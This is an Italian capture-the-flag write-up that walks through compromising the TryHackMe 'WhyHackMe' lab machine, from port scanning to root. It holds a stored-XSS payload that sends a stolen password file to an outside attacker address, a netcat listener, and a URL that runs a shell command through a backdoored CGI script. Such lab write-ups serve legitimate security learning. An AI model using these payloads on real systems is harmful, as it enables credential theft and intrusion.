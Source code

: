 # WhyHackMe

## 1. Riepilogo

Durante l'analisi del sistema target su TryHackMe, sono state identificate e sfruttate diverse vulnerabilità al fine di ottenere l'accesso non autorizzato al sistema e successivamente elevare i privilegi a un livello di root. Di seguito sono riportati i dettagli delle fasi di enumerazione, compromissione e ottenimento dei privilegi.

---

## 2. Enumerazione Iniziale

### 2.1 Scansione delle Porte

È stata eseguita una scansione delle porte tramite Nmap, rivelando le seguenti porte aperte sul sistema target:

```sh
sudo nmap -p- -Ss -T5 -A 10.10.174.223
```

![Porte Aperte](img/image.png)

- Porta 21 (FTP)
- Porta 22 (SSH)
- Porta 80 (HTTP)

### 2.2 Analisi del Servizio Web

L'accesso al servizio web sulla porta 80 ha rivelato la presenza di una pagina che punta a "blog.php". L'analisi del blog.php ha evidenziato la presenza di un post dell'utente "admin" e un link per l'accesso tramite nome utente e password.
![index](img/image-1.png)
![Blog](img/image-2.png)
![login](img/image-3.png)
### 2.3 Enumerazione delle Directory

Gobuster è stato utilizzato per eseguire un'enumerazione delle directory, rivelando l'esistenza di alcune pagine aggiuntive, tra cui "/register.php", che è stata esplorata successivamente.

```sh
gobuster dir -u "http://10.10.174.223:80" -w /usr/share/wordlists/dirb/common.txt
```

![Gobuster](img/image-4.png)

### 2.4 Analisi del Servizio FTP

La porta 21 (FTP) è stata esaminata, consentendo l'accesso tramite l'account "anonymous". Un file "update.txt" è stato recuperato, contenente informazioni sull'eliminazione dell'utente "Mike" e un riferimento a "127.0.0.1/dir/pass.txt".

![FTP](img/image-5.png)
![FTP](img/image-6.png)
---

## 3. Sfruttamento delle Vulnerabilità

### 3.1 Accesso al File Pass.txt

Attraverso un attacco di tipo Directory Traversal, è stato possibile recuperare il contenuto del file "pass.txt" in cui erano presenti le credenziali dell'utente "jack".

### 3.2 Registrazione e Iniezione di Codice

Sfruttando la pagina "/register.php", è stato possibile registrare un nuovo utente e iniettare codice JavaScript nei commenti della pagina "/blog.php", grazie alla manipolazione del nome utente durante la registrazione.

```js
<script>alert(1)</script>
```

![Iniezione di Codice](img/image-13.png)
![Iniezione di Codice](img/image-14.png)

### 3.3 Esecuzione di Reverse Shell

Attraverso l'iniezione di codice, è stato eseguito un attacco di reverse shell, consentendo l'accesso alle credenziali dell'utente "jack".

```javascript
<script>fetch("http://127.0.0.1/dir/pass.txt").then(x => x.text()).then(y => fetch("http://10.14.65.216:9002", {method: "POST", body:y}));</script>
```

```sh
nc -lnvp 9002
```

![Reverse Shell](img/image-15.png)

### 3.4 Accesso come Utente Jack

Con le credenziali ottenute, è stato effettuato il login come "jack" e il file "user.txt" è stato trovato nella home dell'utente.

![User.txt](img/image-16.png)

---

## 4. Scalata di Privilegi

### 4.1 Analisi delle Autorizzazioni Sudo

Dopo l'accesso come "jack", è stata eseguita un'analisi delle autorizzazioni sudo con il comando `sudo -l`, rivelando l'opportunità di eseguire il comando `iptables` senza richiedere la password.

```sh
sudo -l
```

![Sudo -l](img/image-17.png)

### 4.2 Consentire il Traffico sulla Porta 41312

Utilizzando il comando iptables, è stato consentito il traffico sulla porta 41312.

```sh
sudo iptables -L --line-numbers
sudo iptables -I INPUT 1 # numero della regola da eliminare
sudo iptables -I INPUT -p tcp -m tcp --dport 41312 -j ACCEPT
```
![iptables](img/image-18.png)

### 4.3 Analisi del Servizio su Porta 41312

È stata eseguita una scansione sulla porta 41312 con Nmap per identificare eventuali servizi in ascolto.

```sh
nmap -p 41312 -A 10.10.174.223
```

![Nmap](img/image-22.png)

### 4.4 Accesso alla Risorsa Web su Porta 41312

L'accesso alla risorsa web su "https://10.10.92.69:41312" ha rivelato la presenza di una pagina Apache2 che richiede la connessione HTTPS.

![Apache2HTTP](img/image-23.png)
![Apache2HTTPS](img/image-24.png)

### 4.5 Analisi del File di Configurazione Apache2

Il file di configurazione di Apache2 ("/etc/apache2/sites-available/000-default.conf") è stato esaminato per identificare ulteriori informazioni sulla configurazione del server. E' stato possibile esportare il file apache.key il quele è stato utilizzato successivamente.

```sh
cat /etc/apache2/sites-available/000-default.conf
```

![Configurazione Apache2](img/image-19.png)

### 4.6 Enumerazione della directory /opt

Durante la navigazione nel filesystem è stato trovato nella directory /opt un file urgent.txt nel quale si invita a fare un controllo del file capture.pcap

![/opt](img/image-20.png)

### 4.7 Analisi del Traffico HTTPS con Wireshark

Il pcap trovato è stato importato in Wiresharck ed è stata caricata la key esportata precedentemente.

![apache.key](img/image-21.png)

Il traffico HTTPS ora in chiaro su Wireshark, ha rivelevato un file "/cgi-bin/5UP3r53Cr37.py" con parametri "key", "iv", e "cmd".

![Wireshark](img/image-25.png)

### 4.8 Esecuzione di Comandi Arbitrari

Sfruttando la vulnerabilità nel file "/cgi-bin/5UP3r53Cr37.py", è stato possibile eseguire comandi arbitrari. Attraverso l'esecuzione di comandi, è stato ottenuto l'accesso alla root e il file "/root/root.txt" è stato letto.

```sh
https://10.10.92.69:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=cat /root/root.txt
```

![Root.txt](img/image-27.png)

---

Il sistema è stato compromesso con successo, dimostrando la presenza di vulnerabilità critiche e la necessità di implementare misure di sicurezza aggiuntive per prevenire tali attacchi.